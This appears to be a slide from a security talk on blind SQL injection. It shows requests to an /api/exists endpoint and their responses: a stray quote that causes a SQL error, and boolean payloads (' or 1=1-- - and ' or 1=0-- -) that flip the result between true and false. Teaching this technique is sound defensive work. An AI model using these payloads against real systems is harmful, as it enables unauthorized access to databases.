

Not Every SQL Injection Is Easy
GET /api/exists?user='
{"error": "SQL Error"}
GET /api/exists?user=' or 1=1-- -
{"exists": true}
GET /api/exists?user=' or 1=0-- -
{"exists": false}
How to use this SQL injection?